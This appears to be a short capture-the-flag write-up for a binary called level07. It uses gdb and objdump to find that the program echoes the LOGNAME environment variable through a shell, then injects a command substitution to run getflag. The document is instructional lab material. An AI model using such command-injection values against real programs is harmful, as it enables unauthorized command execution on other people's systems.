 We have a binary file named `level07`, using gdb and executing `disassemble main` command you get the following output:

``` C
(gdb) disassemble main
Dump of assembler code for function main:

    ...
    
0x08048576 <+98>:	call   0x8048400 <getenv@plt>

    ...
    
End of assembler dump.
```

Also using `objdump -s -j .rodata ./level07` we can see the read only data section:

``` shell
./level07:     file format elf32-i386

Contents of section .rodata:
 8048678 03000000 01000200 4c4f474e 414d4500  ........LOGNAME.
 8048688 2f62696e 2f656368 6f202573 2000      /bin/echo %s .  
```

So probably gets the `LOGNAME` environment variable with `getenv` and echoes it, so changing this environment variable to a subshell with the `getflag` command will return the token:

``` shell
LOGNAME=$\(getflag\) ./level07 
```
